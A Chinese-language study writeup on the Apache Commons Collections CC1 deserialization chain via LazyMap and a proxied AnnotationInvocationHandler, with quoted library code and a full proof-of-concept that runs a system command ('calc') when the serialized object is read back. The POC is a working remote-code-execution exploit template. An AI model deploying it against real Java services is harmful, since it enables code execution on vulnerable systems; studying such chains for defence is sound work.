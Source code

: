 # 0x01 Preface

CC链的关键在于`transform()`的触发。
上一篇中`transform()`的触发点在`AnnotationInvocationHandler`的`readObject`调用了`setValue`，进而触发`TransformedMap`的`checkSetValue`，进而触发`transform()`

`LazyMap`是另一处触发点，`LazyMap`的`get`方法中会执行`factory.transform()`。顾名思义，**''懒加载''**只有当找不到值的时候才会去**get**

* LazyMap：get元素时触发
* TransformedMap：set元素时触发

```java
public class LazyMap implements Serializable {
    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;
    }
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
}
```

# 0x02 Step Forward

与`TransformedMap`不同，在`sun.reflect.annotation.AnnotationInvocationHandler`的`readObject`方法中并没有直接调用到Map的get方法。

ysoserial找到了`AnnotationInvocationHandler`的invoke方法中调用了get

```java
public Object invoke(Object proxy, Method method, Object[] args) {
    String member = method.getName();
    Class<?>[] paramTypes = method.getParameterTypes();

    // Handle Object and Annotation methods
    if (member.equals("equals") && paramTypes.length == 1 &&
        paramTypes[0] == Object.class)
        return equalsImpl(args[0]);
    if (paramTypes.length != 0)
        throw new AssertionError("Too many parameters for an annotation method");

    switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
    }

    // Handle annotation member accessors
    Object result = memberValues.get(member);
    // ....
}
```

`sun.reflect.annotation.AnnotationInvocationHandler`实际是个代理类，其实现了`InvocationHandler`接口。

📌目标：

1. `readObject`中调用任意方法，调用者是`AnnotationInvocationHandler`代理对象
2. `AnnotationInvocationHandler`的`invoke`触发`memberValues.get()`
   因此代理对象的`memberValues`要设为`LazyMap`
3. `LazyMap#get`触发`factory.transform()`

# 0x03 Weave POC

```java
public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer(
            "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer(
            "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
        new InvokerTransformer(
            "exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    Map argMap = new HashMap();
    Map evilMap = LazyMap.decorate(argMap, chainedTransformer);

    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler handler = (InvocationHandler)constructor.newInstance(Retention.class, evilMap);
    // 代理对象proxyMap
    Map proxyMap = (Map)Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

    handler = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);


    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(handler);
    oos.close();

    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
    Object o = (Object) ois.readObject();
}
```

POC中触发invoke的是`AnnotationInvocationHandler#readObject` =>`memberValues.entrySet()`

因此`Proxy.newProxyInstance`传的是`Map`的`ClassLoader`和接口

# 0x04 Shortcomings

`LazyMap`的漏洞触发在get和invoke中
而`TransformedMap`的漏洞触发在setValue中
同样在 **jdk 8u71**之后，由于`AnnotationInvocationHandler`不再直接使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，后续对Map的操作都是基于这个新的LinkedHashMap对象。
因此CC1链只局限在**jdk 8u71**之前的版本。
